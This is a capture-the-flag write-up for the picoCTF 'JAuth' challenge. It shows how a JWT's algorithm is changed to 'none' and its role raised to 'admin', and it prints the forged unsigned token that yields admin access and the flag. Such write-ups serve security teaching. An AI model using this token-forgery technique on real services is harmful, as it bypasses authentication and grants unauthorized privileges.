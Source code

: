 # picoCTF - JAuth

The challenge description hints at a potential vulnerability within the website. Upon accessing the site, the initial step is to log in using the provided credentials:

- Username: test
- Password: Test123!

When intercepted through a proxy like Burp, the provided credentials generate a POST request.
![grafik](https://github.com/6v4tq8mhlO23a/WriteUp/assets/76184566/68c05bc4-a7fa-48e9-9625-57fd8adede53)
Upon forwarding this request, a subsequent GET request is observed, revealing a token. Decoding this token using Base64 reveals its structure:
![grafik](https://github.com/6v4tq8mhlO23a/WriteUp/assets/76184566/9bb19aa5-4515-4d08-8f12-07bd47e72692)
This token is a JWT (JSON Web Token) composed of three parts:

- Header: `{"typ":"JWT","alg":"HS256"}`
- Payload: `{"auth":1709903626143,"agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.95 Safari/537.36","role":"user","iat":1709903626}`
- Signature: kXaVDzr3FEmIOGMSYYp6wo9PAWrkEU80WO3qzX9_ALA

The header specifies the algorithm used for token signing, which in this case is HS256. This algorithm is used to create a signature to ensures the token's integrity by preventing unauthorized modifications. However, JWT also permits the use of the "none" algorithm. By changing the algorithm to "none" in the header, the server no longer verifies the signature, allowing manipulation of the token.

Thus, by modifying the token's header to:
```
{"typ":"JWT","alg":"none"}
```
and adjusting the role to "admin" while retaining the same authentication ID as requested during login:
```
{"auth":1709905054985,"agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.95 Safari/537.36","role":"admin","iat":1709905055}
```
we create a new token without including the signature. The final token appears as follows:
```
{"typ":"JWT","alg":"none"}{"auth":1709905054985,"agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.95 Safari/537.36","role":"admin","iat":1709905055}
```
Upon Base64 encoding, the manipulated token yields:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNzA5OTA1MDU0OTg1LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMjIuMC42MjYxLjk1IFNhZmFyaS81MzcuMzYiLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3MDk5MDUwNTV9.
```
This manipulated token successfully grants us administrative privileges, as illustrated by the obtained flag:

And we get our flag:

![grafik](https://github.com/6v4tq8mhlO23a/WriteUp/assets/76184566/65b204c2-c93f-4bf1-85a5-6a4c6fbdbac2)
